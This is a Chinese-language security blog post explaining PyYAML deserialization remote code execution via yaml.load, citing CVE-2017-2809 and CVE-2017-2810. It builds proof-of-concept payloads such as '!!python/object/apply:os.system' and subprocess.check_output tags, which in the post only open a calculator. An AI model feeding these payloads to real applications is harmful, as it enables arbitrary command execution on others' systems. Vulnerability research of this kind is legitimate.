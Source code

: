 Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: 漏洞实践
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一

![img](img/pyyaml/1.png)

### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二

![img](img/pyyaml/2.png)

成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/code2sec.com/tree/master/code/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>